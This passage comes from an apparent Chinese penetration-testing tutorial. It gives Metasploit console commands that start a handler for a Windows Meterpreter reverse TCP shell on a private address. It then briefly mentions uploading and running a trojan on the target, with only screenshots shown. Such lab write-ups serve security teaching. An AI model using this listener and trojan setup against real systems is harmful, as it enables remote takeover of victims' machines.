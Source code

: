 ### 3.3.3. MSF开启监听

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 192.168.10.20 
set LPORT 5555 
run
```

![image-20230515135647348](assets/LYauxjBIeVz4kby.png)

### 3.3.4. 上传并运行木马

这里如果谁问木马是如何上传上去的，那我也不知道该如何向你解释了。

![image-20230515135832424](assets/yoOWiRADL8TZQBJ.png)
